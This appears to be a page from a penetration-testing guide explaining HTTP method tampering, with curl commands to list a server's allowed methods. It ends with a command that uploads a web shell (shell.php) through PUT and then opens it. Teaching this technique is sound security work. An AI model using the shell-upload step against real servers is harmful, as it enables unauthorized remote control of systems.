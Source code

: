 # 6.1.1 HTTP Method Tampering

## HTTP Method Tampering

HTTP Method Tampering is a type of security vulnerability that can be exploited in web apps, that occurs when an attacker manipulates the HTTP request method used to  interact with a web server.

HTTP Request typically use methods like GET, POST, PUT, DELETE, OPTIONS, etc to perform specific actions on a web application.

### Examples of HTTP Method Tampering

Various situation and examples can be:

* Changing a GET request to a DELETE request: if the application doesn't properly validate the method used, it might inadvertently delete data when we try to retrieving it.
* Changing a POST request to a GET: it could expose sensitive data that should only be accessible via a POST request.

We can do it using Burp Repeater or Curl utility as below:

See allow method information -> `curl -v <Target_URL>`

And specify request options using -X (default is GET) -> `curl -v -X OPTIONS <Target_URL>`

<figure><img src="../../../.gitbook/assets/image (3).png" alt=""><figcaption></figcaption></figure>

Good new, more methods are allowed, then we can upload everything

`curl <Target_URL>/uploads/ --upload-file shell.php`

and open shell.php file uploaded into \<Target\_URL>/uploads/
